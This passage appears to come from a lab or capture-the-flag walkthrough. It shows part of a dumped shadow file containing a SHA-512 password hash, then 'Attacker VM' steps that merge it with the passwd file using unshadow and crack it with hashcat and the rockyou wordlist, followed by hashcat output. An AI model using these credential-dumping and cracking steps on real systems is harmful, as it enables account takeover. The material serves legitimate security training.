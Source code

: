 ~~~
proxy:*:17298:0:99999:7:::
www-data:*:17298:0:99999:7:::
backup:*:17298:0:99999:7:::
list:*:17298:0:99999:7:::
irc:*:17298:0:99999:7:::
gnats:*:17298:0:99999:7:::
nobody:*:17298:0:99999:7:::
libuuid:!:17298:0:99999:7:::
Debian-exim:!:17298:0:99999:7:::
sshd:*:17298:0:99999:7:::
statd:*:17299:0:99999:7:::
TCM:$6$hDHLpYuo$El6r99ivR20zrEPUnujk/DgKieYIuqvf9V7M.6t6IZzxpwxGIvhqTwciEw16y/B.7ZrxVk1LOHmVb/xyEyoUg.:18431:0:99999:7:::
~~~

Attacker VM

1. In command prompt type: `unshadow <PASSWORD-FILE> <SHADOW-FILE> > unshadowed.txt`

Now, you have an unshadowed file.  We already know the password, but you can use your favorite hash cracking tool to crack dem hashes. For example: `hashcat -m 1800 unshadowed.txt rockyou.txt -O`

~~~
$ /usr/sbin/unshadow passwd shadow > unshadowed.txt
$ hashcat -m 1800 unshadowed.txt /usr/share/wordlists/rockyou.txt -O
hashcat (v6.1.1) starting...

OpenCL API (OpenCL 1.2 pocl 1.5, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================
* Device #1: pthread-Intel(R) Core(TM) i7-4800MQ CPU @ 2.70GHz, 2870/2934 MB (1024 MB allocatable), 2MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 15

Hashfile 'unshadowed.txt' on line 2 (daemon:*:1:1:daemon:/usr/sbin:/bin/sh): Token length exception
Hashfile 'unshadowed.txt' on line 3 (bin:*:2:2:bin:/bin:/bin/sh): Token length exception
Hashfile 'unshadowed.txt' on line 4 (sys:*:3:3:sys:/dev:/bin/sh): Token length exception
Hashfile 'unshadowed.txt' on line 5 (sync:*:4:65534:sync:/bin:/bin/sync): Token length exception
Hashfile 'unshadowed.txt' on line 6 (games:*:5:60:games:/usr/games:/bin/sh): Token length exception
Hashfile 'unshadowed.txt' on line 7 (man:*:6:12:man:/var/cache/man:/bin/sh): Token length exception
Hashfile 'unshadowed.txt' on line 8 (lp:*:7:7:lp:/var/spool/lpd:/bin/sh): Token length exception
Hashfile 'unshadowed.txt' on line 9 (mail:*:8:8:mail:/var/mail:/bin/sh): Token length exception
Hashfile 'unshadowed.txt' on line 10 (news:*:9:9:news:/var/spool/news:/bin/sh): Token length exception
Hashfile 'unshadowed.txt' on line 11 (uucp:*...:10:uucp:/var/spool/uucp:/bin/sh): Token length exception
Hashfile 'unshadowed.txt' on line 12 (proxy:*:13:13:proxy:/bin:/bin/sh): Token length exception
Hashfile 'unshadowed.txt' on line 13 (www-da...:33:33:www-data:/var/www:/bin/sh): Token length exception
Hashfile 'unshadowed.txt' on line 14 (backup...4:34:backup:/var/backups:/bin/sh): Token length exception
Hashfile 'unshadowed.txt' on line 15 (list:*...g List Manager:/var/list:/bin/sh): Token length exception
Hashfile 'unshadowed.txt' on line 16 (irc:*:39:39:ircd:/var/run/ircd:/bin/sh): Token length exception
Hashfile 'unshadowed.txt' on line 17 (gnats:...m (admin):/var/lib/gnats:/bin/sh): Token length exception
Hashfile 'unshadowed.txt' on line 18 (nobody...5534:nobody:/nonexistent:/bin/sh): Token length exception
Hashfile 'unshadowed.txt' on line 19 (libuui...00:101::/var/lib/libuuid:/bin/sh): Token length exception
~~~